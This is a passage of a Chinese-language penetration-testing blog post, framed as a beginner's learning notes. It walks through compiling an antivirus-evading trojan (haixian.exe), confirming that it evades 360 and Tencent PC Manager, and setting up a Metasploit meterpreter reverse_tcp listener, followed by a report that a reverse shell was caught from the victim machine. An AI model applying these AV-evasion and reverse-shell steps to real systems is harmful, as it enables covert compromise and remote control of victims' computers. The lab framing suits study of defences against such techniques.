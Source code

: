 这段代码的意思简单来说就是执行数组（注意第六行的括号要去掉，否则会编译不成功）

![](https://image.3001.net/images/20210420/1618921770_607ec92a242a77189c9f1.png!small)

![](https://image.3001.net/images/20210420/1618921774_607ec92e009be0261c23d.png!small)

下面分别组建并编译 stdafx.cpp 与 haixian.cpp

![](https://image.3001.net/images/20210420/1618922063_607eca4f3c5551d7be20f.png!small)

![](https://image.3001.net/images/20210420/1618921810_607ec952a634530d83f05.png!small)

接下来在工程文件夹下的 Debug 文件夹中可以看到 haixian.exe

![](https://image.3001.net/images/20210420/1618921850_607ec97a3b8dd0c63c47e.png!small)

将 haixian.exe 粘贴到受害机里使用 360 和电脑管家进行检测，成功绕过!

![](https://image.3001.net/images/20210420/1618921868_607ec98c3bbcfff720c3d.png!small)

![](https://image.3001.net/images/20210420/1618921871_607ec98fee5b6a2ab9dbf.png!small)

攻击机设置监听

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.119.130
set lport 1234
run
```

![](https://image.3001.net/images/20210420/1618921892_607ec9a416615baf37a0c.png!small)

在受害机中运行免杀马（不用关闭杀软）

可以看到在受害机反弹的 shell

![](https://image.3001.net/images/20210420/1618921900_607ec9ac33cb00b366f89.png!small)

至此，我们完成了对木马的免杀处理并在受害机杀软环境下成功运行木马

写在后面
----

此文为笔者作为一名渗透小白所写的学习记录，路过大神若有高见欢迎斧正

下篇文章写内网渗透，敬请期待~~~